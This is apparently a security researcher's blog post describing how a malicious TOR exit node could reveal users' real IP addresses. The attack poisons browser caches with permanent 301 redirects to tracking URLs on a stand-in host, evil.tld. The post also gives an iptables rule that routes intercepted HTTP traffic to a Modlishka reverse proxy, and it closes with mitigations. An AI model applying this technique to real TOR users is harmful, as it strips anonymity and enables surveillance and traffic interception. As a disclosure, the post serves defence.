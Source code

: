 ```yaml
---
layout: post
title: Disclosing your real TOR IP address through 301 HTTP Redirect Cache Poisoning 
---
```


This blog post describes a possible technique that can be used by a malicious TOR exit node to identify real IP address of TOR users. 

This approach is based on the previously described technique of permanently hijacking certain non-TLS URLS through "[HTTP 301 Cache Poisoning](https://blog.duszynski.eu/domain-hijack-through-http-301-cache-poisoning/)" - persistence of the poisoned cache is the key element here, which makes this possible...

### Example Attack Scenario


Assumptions:
- Browser-based application (in this case a standard browser) will connect through the TOR network and, eventually, malicious TOR exit node.
- Malicious TOR exit node that is intercepting and HTTP 301 cache poisoning all of the non-tls HTTP traffic.

![Disclosing TOR client IP address](https://raw.githubusercontent.com/drk1wi/assets/master/tor_ip.png)

Lets consider the following attack scenario steps:

1. User connects to the Internet through the TOR network either by setting up browsers' settings to use the TOR SOCKS5 or system wide, where the whole OS traffic is being routed through the TOR network.
2. User begins his typical browsing session with his favorite browser, where usually a lot of non-TLS HTTP traffic is being sent through the TOR tunnel. 
3. Evil TOR exit node intercepts those non-TLS requests and responds with a HTTP 301 permanent redirect to each of them. These redirects will be cached permanently by the browser and will point to a tracking URL with an assigned TOR client identifier. 
The tracking URL can be created in the following way: http://user-identifier.evil.tld. _Evil.tld_ will collect all source IP information and redirect to the original host or to a transparent reverse proxy, such as Modlishka, in an attempt intercept all of the clients following HTTP traffic.
Furthermore, since it is also possible to carry out an automated cache pollution for the most popular domains (as described in the previous [post](https://blog.duszynski.eu/domain-hijack-through-http-301-cache-poisoning/), e.g. TOP Alexa 100 , an attacker can further try to maximize his chances of disclosing the real IP address.
4. User, after closing the TOR session, will switch back to his usual network.
5. As soon user types into the URL address bar one of the previously poisoned entries, e.g. "google.com," browser will use the cache and internally redirect to the tracking URL with an exit-node context identifier.
6. Exit node will now be able to correlate previously intercepted HTTP request and users' real IP address through the information gathered on the external host that used tracking URL with user identifier. The _evil.tld_ host will have information about all of the IP addresses that were used to access that tracking URL.

Obviously, this gives a possibility to effectively correlate chosen HTTP requests with the client IP address. This is because the previously generated tracking URL will be requested by the client through the TOR tunell and later, after disconnecting, through a standard ISP connection, because of the poisoned cache entries. 


However, it is also possible to include a dynamic and transparent reverse proxy in this scenario that will try to compromise all further HTTP encrypted traffic that is leaving the TOR exit node. 
A simple IPTABLES redirect rule would be sufficient in this case:

```bash
iptables -t nat -I POSTROUTING -p tcp --dport 80 -j SNAT --to modlishka_ip_address:80
```

Another approach, might rely on injecting modified JavaScript with embed tracking URLS into the relevant non-TLS responses and setting up the right Cache control headers (e.g. to 'Cache-Control: max-age=31536000'). However, it would rely on a single non-TLS domain and wouldn't be that effective.


### Conclusions
The fact that it is possible to achieve certain persistence in browsers cache can be abused to disclose real IP address of the TOR user by a malicious TOR exit node.

Note: A proof-of-concept is currently being prepared and should be released shortly.

Possible mitigation:
- When connecting through TOR network only use browsers 'private' mode and close it after the TOR session is over.
- Disable all non-TLS traffic, when routing all OS traffic through the TOR network.
- Use TOR-browser whenever possible.

